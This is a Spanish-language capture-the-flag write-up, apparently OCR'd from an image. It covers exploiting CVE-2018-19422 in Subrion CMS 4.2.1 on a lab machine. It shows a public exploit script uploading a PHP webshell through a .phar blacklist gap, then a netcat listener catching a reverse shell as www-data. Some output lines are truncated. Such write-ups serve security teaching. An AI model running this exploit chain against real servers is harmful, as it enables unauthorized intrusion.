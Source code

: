 ## **Vectores de Ataque Confirmados**

### **Bypass con extensión `.phar`**

**Mecanismo**:

- Archivos PHAR (`PHP Archive`) contienen código PHP comprimido y son ejecutables si el servidor no los bloquea. 
- Subrion no filtraba `.phar` en sus listas negras.

#### Explotación de CVE-2018-19422

Utilicé un exploit público que automatiza el proceso de autenticación, obtiene el token CSRF necesario, evade las restricciones de subida, y carga una webshell PHP con una reverse shell embebida.

### Ejecución del exploit:

```bash
(zikuta㉿zikuta)-[~/techsupport]
└─$ python3 subrion.py -u http://10.10.95.117/subrion/
[+] SubrionCMS 4.2.1 - File Upload Bypass to RCE - 

[+] Trying to connect to: http://10.10.95.117/subri
[+] Success!
[+] Got CSRF token: z8KjVfMfO1y1g4IYwXaFJTEP6qDRZ6x
[+] Trying to log in...
[+] Login Successful!

[+] Generating random name for Webshell...
[+] Generated webshell name: uwavtenzasdwriq

[+] Trying to Upload Reverse Shell...
[+] Checking if reverse shell was uploaded correctl
```

#### Conexión inversa

Se activó un listener en el puerto 4444 para recibir la shell:

```bash
──(zikuta㉿zikuta)-[~/techsupport]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.23.120.245] from (UNKNOWN) [10.10.95.117] 42828
bash: cannot set terminal process group (1378): Inappropriate ioctl for device
bash: no job control in this shell
www-data@TechSupport:/var/www/html/subrion/uploads$ cd ../
cd ../
www-data@TechSupport:/var/www/html/subrion$ whoami
whoami
www-data
```

